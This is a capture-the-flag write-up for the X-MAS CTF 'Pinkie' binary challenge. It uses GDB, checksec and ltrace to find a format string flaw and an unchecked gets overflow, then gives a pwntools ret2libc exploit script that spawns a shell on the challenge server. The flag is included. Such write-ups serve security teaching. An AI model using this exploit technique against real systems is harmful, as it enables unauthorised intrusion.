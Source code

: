 ## exploit

In this challenge we have to exploit ELF 32 bit not stripped executable that returns 2 gifts: 
```
Here are some gifts from Santa: 0x8049940 0xf7e48da0
```

With GDB we can notice that the first address refers to a bunch of bytes in `.bss` section:

```
info symbol 0x8049940

section .bss of /home/vagrant/share/xmasCTF/Pinkie/pinkiegift.dms

gdb-peda$ x/40wx 0x8049940
0x8049940 <binsh>   :	0x00000000	0x00000000	0x00000000	0x00000000
0x8049950 <binsh+16>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049960 <binsh+32>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049970 <binsh+48>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049980 <binsh+64>:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049990 <binsh+80>:	0x00000000	0x00000000	0x00000000	0x00000000
0x80499a0 <binsh+96>:	0x00000000	0x00000000	0x00000000	0x00000000
```

Normally the `bss` section is not executable, it could be useful in order to place some shellcode but require a previous call to `mprotect` to execute that, or I could write with `gets` or other libc function some bytes and obtain all strings I need. 

The second gift is a real gift! An address to libc `system` procedure. So now i could try to search in `text` or `data` or `bss` section an `sh` strings and exploit executable without using the first gift. Moreover we can notice from the output of remote program, that ASLR is disabled, `system` is placed at the same address.


Ok now I only have to figure out where vulnerability is, with checksec we can see the following:

```
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

We've got no canary, and after executing program with ltrace I can notice that, after printing the gifts, it perform a gets followed by printf and another gets.

The printf output exactly what inserted with the first gets and here we have a format string vulnerability:

```
Here are some gifts from Santa: 0x8049940 0xf7de8850
%x
a7825
```
So we could for istance try to write printf GOT entry in order to call system instead of printf but I considered that: 

* No checks boundary are performed after gets is permormed
* The absence of canary permit to perform ret2libc to system passing `sh` string as argument

The exploit:

```python
#!/usr/bin/env python3
from pwn import *

r=remote('199.247.6.180', 10006)
out=r.recvuntil('\n')
print(out)
addr_system=out.split()[-1]
addr_bin_sh=out.split()[-2]
print(addr_system)
r.send(b"/////////////////////bin/sh"+b"\n")
r.send(p32(int(addr_system,16))*36+p32(0x8048f48)+b"\n")
r.interactive()

r.close()
```
##### flag: X-MAS{F0rm47_57r1ng_15_7h3_b3st_pr353n7_f0r_l1773_buff3r_0v3rfl0w}




